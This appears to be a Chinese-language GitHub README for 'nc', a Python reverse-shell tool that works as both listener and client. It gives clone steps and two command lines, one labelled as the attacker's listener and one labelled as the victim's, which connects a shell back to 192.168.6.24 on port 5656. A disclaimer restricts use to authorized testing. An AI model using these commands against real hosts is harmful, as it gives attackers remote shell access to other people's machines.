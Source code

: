 ## nc

## 安装

```
git clone https://github.com/xanszZZ/nc
cd nc
```

## 使用

```
1.反弹shell
2.单个文件实现两端
	通过不同的参数    监听的时候只运行监听的分支代码，反弹就运行反弹的分支代码
```

poc

```
python3 nc.py -p 5656  #设置代理端口，攻击端

python3 nc.py -r 192.168.6.24 -p 5656  #反弹shell 受害端
```



## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。